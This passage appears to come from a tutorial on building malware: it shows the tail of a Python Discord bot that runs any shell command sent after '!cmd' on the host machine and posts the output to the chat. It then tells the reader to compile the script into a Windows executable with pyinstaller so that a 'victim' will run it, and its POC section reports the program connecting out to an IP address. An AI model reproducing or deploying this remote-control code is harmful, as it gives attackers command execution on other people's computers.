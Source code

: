 ```py
        await message.reply(embed=embed)
    if message.content.startswith('!cmd'):
        command = message.content[5:]
        try:
            result = subprocess.run(command, shell=True, capture_output=True, text=True)
            output = result.stdout or result.stderr or "Command executed without output."
            embed = discord.Embed(title="Command Run", description=f"```{output}```", color=0xfafafa)
        except Exception as e:
            embed = discord.Embed(title="Error", description=f"```Error executing command: {e}```", color=0xfafafa)
        await message.reply(embed=embed)

client.run(TOKEN)
```

To make sure the victim runs this code, we need to compile this source code to PE format using pyinstaller.

`pyinstaller.exe --onefile yourmalware.py`

The result should look like this.
![](image-11.png)

# POC

When executing the malware, it established a connection to an IP address.
![](image-12.png)
